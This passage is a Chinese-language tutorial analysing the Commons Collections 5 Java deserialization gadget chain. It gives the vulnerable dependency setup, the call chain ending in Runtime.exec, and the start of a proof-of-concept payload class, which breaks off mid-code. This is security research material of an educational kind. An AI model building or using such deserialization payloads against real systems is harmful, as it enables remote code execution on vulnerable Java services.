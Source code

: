 # 环境搭建

- JDK 1.8
- Commons Collections 3.1

```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```

# 利用链分析

**利用链**

```
ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

**POC**

```
package CC5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5payload {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
```